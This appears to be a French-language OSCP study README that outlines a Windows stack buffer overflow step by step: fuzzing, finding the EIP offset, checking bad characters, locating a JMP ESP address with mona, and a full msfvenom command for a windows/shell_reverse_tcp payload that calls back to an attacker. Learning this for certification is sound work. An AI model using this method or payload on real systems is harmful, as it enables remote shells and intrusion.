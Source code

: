 # OSCP
Road map pour OSCP

# FUZZING :
Trouver un paramètre et lui envoyer autant de bytes possibles en créant un script python et en utilisant la lib socket.

Une fois que le fuzzing a crash, récuperer le nombre de bytes qui l'ont fait crash. 

# FINDING OFFSET :
Afin de récuperer l'offset précis pour écrire EIP, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l {nb de bytes qui ont fait crash le fuzzer}" pour générer des bytes uniques.

Ensuite on modifie le script python afin d'envoyer les bytes générés, on execute le script et on récupere sur Immunity la valeur de EIP.

Après cela, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {nb bytes qui ont fait crash le fuzzer} -q {offset trouvé sur EIP dans Immunity}"

Le script ruby nous retourneras l'offset précis afin de controler EIP, tester en ajoutant :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4}

Cette fois, on devrais voir EIP à "42424242".

# FINDING BADCHARS :
Taper sur Google : badchars, copier le code et le coller dans une variable.

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4} + {badchars}
      
Retourner sur Immunity, aller sur ESP, clic droit et follow dump, si la suite des badchars s'affiche correctement, il n'y a pas de badchars, sinon, récuperer le ou les badchars et les exclures lors de la génération de shellcode.

# FINDING vulnerable MODULE :
Désormais, aller sur Immunity importer mona, relancer le programme et chercher un module sans aucune sécurité active (tout à false) :

      !mona modules

Après cela, chercher dans ce propre module, une adresse qui jump sur ESP afin de réecrire dedans et executer le shellcode

      !mona jmp -r esp -m {nom du module non sécurisé}
      
Quand l'adresse est trouvée, relancer Immunity en attachant le programme, cliquer en haut sur "Go to address in disassembler", entrer l'adresse et poser un breakpoint avec F2.


Aller sur le script python et faire ceci :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian}

Si après exécution du script, EIP contient la valeur de l'adresse, cela fonctionne.

# GENERATING SHELLCODE :
Afin de générer le shellcode, utiliser msfvenom :

      msfvenom --arch x86 --platform windows LHOST={@IP} LPORT={@PORT} -e x86/shikata_ga_nai -p windows/shell_reverse_tcp -f python -b "\x00 (ne pas oublier les badchars trouvés)"
      
 Copier le shellcode, le mettre dans le script et l'ajouter de la manière suivante :
 
       shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian} + nop*10 + {shellcode généré}
       
# REVERSE SHELL :
Se mettre à l'écoute au préalable, lancer le script, normalement un shell est poppé.
